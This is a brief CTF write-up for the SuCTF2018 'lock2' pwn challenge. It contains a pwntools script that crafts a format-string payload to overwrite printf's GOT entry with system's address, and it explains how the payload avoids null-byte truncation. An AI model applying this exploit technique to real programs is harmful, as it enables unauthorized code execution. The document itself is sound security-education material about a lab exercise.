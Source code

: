 
```python

## modify printf_got

payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')

## get all the addr

addr = payload[:32]

payload = '%32d' + payload[32:]

offset = (int)(math.ceil(len(payload) / 8.0) + 1)

for i in range(6, 10):

    old = '%{}$'.format(i)

    new = '%{}$'.format(offset + i)

    payload = payload.replace(old, new)

remainer = len(payload) % 8

payload += (8 - remainer) * 'a'

payload += addr

sh.sendline(payload)

sh.recv()

```



Fmtstr\_payload directly get the payload will put the address in front, and this will lead to &#39;\x00&#39; truncation of printf (**About this problem, pwntools is currently developing an enhanced version of fmt\_payload, it is estimated that it will be developed soon **). So I used some tricks to put it behind. The main idea is to place the address in the 8 byte alignment and modify the offset in the payload. have to be aware of is


```python

offset = (int)(math.ceil(len(payload) / 8.0) + 1)

```



This line gives the offset of the modified address in the formatted string. The reason for this is that no matter how it is modified, the more characters in the order of &#39;%order$hn&#39; will not be greater than 8. Specific can be deduced by yourself.


### Title
- SuCTF2018 - lock2 (The organizer provided the docker image: suctf/2018-pwn-lock2)

